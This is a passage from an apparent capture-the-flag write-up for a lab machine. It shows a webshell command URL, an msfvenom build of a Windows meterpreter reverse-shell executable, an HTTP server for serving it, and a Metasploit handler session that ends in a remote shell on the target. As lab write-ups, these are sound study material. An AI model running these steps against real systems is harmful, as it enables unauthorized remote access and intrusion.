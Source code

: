 <figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption><p><a href="http://internal.analysis.htb/dashboard/uploads/webshell.php?cmd=whoami">http://internal.analysis.htb/dashboard/uploads/webshell.php?cmd=whoami</a></p></figcaption></figure>

Create a payload using **msfvenom**

```
┌──(Batman㉿GC)-[~/Analysis]
└─$  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.56 LPORT=4444 -f exe -o exp.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: exp.exe
```

Now run following commands in different terminals.

```
┌──(Batman㉿GC)-[~/Analysis]
└─$ python3 -m http.server 8080
```

```
┌──(Batman㉿GC)-[~]
└─$ msfconsole                                                                           
Metasploit tip: After running db_nmap, be sure to check out the result 
of hosts and services

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.56:4444 
[*] Sending stage (200774 bytes) to 10.10.11.250
[*] Meterpreter session 1 opened (10.10.14.56:4444 -> 10.10.11.250:50959) at 2024-01-23 17:03:01 +0530

meterpreter > shell
Process 5684 created.
Channel 1 created.
Microsoft Windows [version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. Tous droits r�serv�s.

C:\inetpub\internal\dashboard\uploads>
```
